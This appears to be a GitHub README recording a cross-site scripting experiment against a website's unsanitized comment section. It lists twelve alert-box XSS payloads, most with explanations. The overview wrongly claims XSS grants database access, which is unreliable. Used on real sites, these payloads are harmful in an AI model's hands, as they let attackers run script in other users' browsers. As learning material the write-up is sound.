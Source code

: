 # Website Link : 

This website is vulnerable in XXS(Cross-Site Scripting).The user input from the comment section is not validated and sanitized.Due to that, XSS scripts(Javascript codes in usual) can be included in the comments.

# XXS(Cross-Site Scripting) Vulnerability Experiment

## Overview

This section documents the XXS vulnerabilities identified in the website []. The vulnerabilities allow unauthorized access to the database, potentially leading to data exposure and manipulation.

## XSS payloads

### 1. Simple Script Alert:
```HTML
<script>alert(\'SCRIPT ALERT\');</script>
```
Explanation: This payload injects a <script> tag directly into the HTML. When the browser encounters this tag, it executes the JavaScript code inside, causing an alert box to pop up with the message "SCRIPT ALERT".

NOTE : the backslash (\) before the single quote (') inside the string tells the interpreter to treat it as a literal character rather than the end of the string.Because comments are passes through the query to save in database, without using backslash causes error and stop the execution of webpage 

### 2. Image Tag with JavaScript:
```HTML
<img src="x" onerror="alert(\'HACKED\')">
```
Explanation: This payload uses an <img> tag with a broken src attribute (x). The onerror attribute specifies JavaScript code to run if an error occurs while loading the image. In this case, it triggers an alert with the message "HACKED".

### 3. Anchor Tag with JavaScript:
```HTML
<a href="javascript:alert(\'YOUR DEVICE IS HACKED\')">Click me</a>
```
Explanation: This payload uses an <a> (anchor) tag with an href attribute set to a JavaScript URI. When the user clicks the link, the browser executes the JavaScript code, causing an alert with the message "YOUR DEVICE IS HACKED".

### 4. Event Handler in a Div:
```HTML
<div onmouseover="alert(\'Do not Touch me\')">Hover over me</div>
```
Explanation: This payload uses a <div> tag with an onmouseover event handler. When the user hovers over the div, the browser executes the JavaScript code, causing an alert with the message "Do not Touch me".

### 5. Body Tag with Onload Event:
```HTML
<body onload="alert(\'DELETE ME\')">
```
Explanation: This payload uses the <body> tag with an onload event handler. When the page loads, the browser executes the JavaScript code, causing an alert with the message "DELETE ME".

### 6. Encoded Characters:
```HTML
<svg onload=alert(\'SVG loaded\')>
```
Explanation: This payload uses an <svg> (Scalable Vector Graphics) tag with an onload event handler. When the SVG is loaded, the browser executes the JavaScript code, causing an alert with the message "SVG loaded".

### 7. Input Field with JavaScript:
```HTML
<input type="text" value="TEXT" onfocus="alert(\'YOU CAN NOT OVERWRITE\')">
```
Explanation: This payload uses an <input> tag with an onfocus event handler. When the user focuses on the input field (e.g., clicks on it), the browser executes the JavaScript code, causing an alert with the message "YOU CAN NOT OVERWRITE".
Note : After execution of this comment, if you receive alert message continously just reload the page.

### 8. Malicious URL:
```HTML
<a href="https://fruits.selfmade.solutions" onclick="alert(\'Are you sure?\')">Malicious Link</a>
```
Explanation: This payload uses an <a> (anchor) tag with an onclick event handler. When the user clicks the link, the browser executes the JavaScript code, causing an alert with the message "Are you sure?".

### 9. Textarea Tag:
```HTML
<textarea onfocus="alert(\'XSS\')">Focus on me</textarea>
```
Explanation: This payload uses a <textarea> tag with an onfocus event handler. When the user focuses on the textarea (e.g., clicks on it), the browser executes the JavaScript code, causing an alert with the message "XSS".

10. Iframe Tag:

<iframe src="javascript:alert('XSS')"></iframe>

11. Style Tag with JavaScript:

<style>body{background:url("javascript:alert('XSS')");}</style>

12. SVG with Embedded JavaScript:

<svg><script>alert('XSS')</script></svg>

